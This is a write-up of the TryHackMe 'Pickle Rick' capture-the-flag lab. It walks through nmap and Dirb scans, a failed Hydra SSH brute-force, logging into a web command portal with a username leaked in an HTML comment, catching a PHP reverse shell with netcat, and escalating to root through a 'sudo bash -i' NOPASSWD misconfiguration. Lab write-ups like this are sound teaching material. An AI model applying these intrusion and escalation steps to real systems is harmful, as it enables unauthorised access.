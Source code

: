 ```yaml
---
categories:
- Tryhackme
- CTF
layout: post
image:
    path: hacking.png
media_subpath: /assets/posts/2025-03-29-Pickle-Rick-THM
tags:
- CTF
- Fundamentals
- Tryhackme
title: THM - Starters - Pickle Rick
---
```


## Introduction

**A Rick and Morty CTF. Help turn Rick back into a human!**

![](2025-03-29-11-13.png)


## Enumeration

````
Nmap scan report for thm.machine
Host is up (0.056s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
````

As said in the instructions, I will dig deeper in to the web application of this server. 


![](2025-03-29-11-28.png)

Repeating the words "Burp" assuming this is a reference of the webtesting tool called Burpsuite.
There was also some gibberish in the /robots.txt file and a username stored in the sourcecode in a comment. This username could be used for bruteforcing the SSH with Hydra. There was no exploits in the Metasploit Framework for this version of Apache (2.4.41).

![](2025-03-29-11-40.png)

````
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
````

SSH-service did not have password authentication on, so I cannot proceed further with the bruteforcing.
````
[DATA] attacking ssh://10.x.x.x:22/
[ERROR] target ssh://10.x.x.x:22/ does not support password authentication (method reply 4).
````

Let's check if there is any other directories available with Dirb.

````
---- Scanning URL: http://10.x.x.x/ ----
==> DIRECTORY: 
+ http://10.x.x.x/assets/                                                                         
+ http://10.x.x.x/index.html                                                           
+ http://10.x.x.x/robots.txt                                                            
+ http://10.x.x.x/login.php
+ http://10.x.x.x/server-status
````

The login.php seems to be the right way to use that username.

![](2025-03-29-11-58.png)

Using the username "R1ckRul3s" and string found from /robots.txt, I was able to gain access to this portal.

![](2025-03-29-11-26.png)

It seems you can now access to the backend server and execute commands. "ls": 

![](2025-03-29-11-01.png)

This page supports PHP, now I want to gain a better shell. By using PHP-shell command I was able to grab a session with netcat.
![](2025-03-29-11-25.png)
````
$ ls
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
$ cat Sup3rS3cretPickl3Ingred.txt
mr. *** *** <-- first question answer >
$ 
````
````
$ cat clue.txt	
Look around the file system for the other ingredient.
````
Under /home directory there was a user called "rick", which had the second ingredient.

````
$ cd rick
$ ls
second ingredients
$ cat "second ingredients"
1 j**** **** <-- Second answer >
````

"sudo -l" result was interesting. All commands can be run with root privileges. 

````
User www-data may run the following commands on ip-10-x-x-x:
    (ALL) NOPASSWD: ALL
````
````
sudo bash -i
bash: cannot set terminal process group (1023): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-x-x-x:/home/rick# 
````
Now let's go to /root to grab the last flag.

````
root@ip-10-x-x-x:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fle*** *****
````


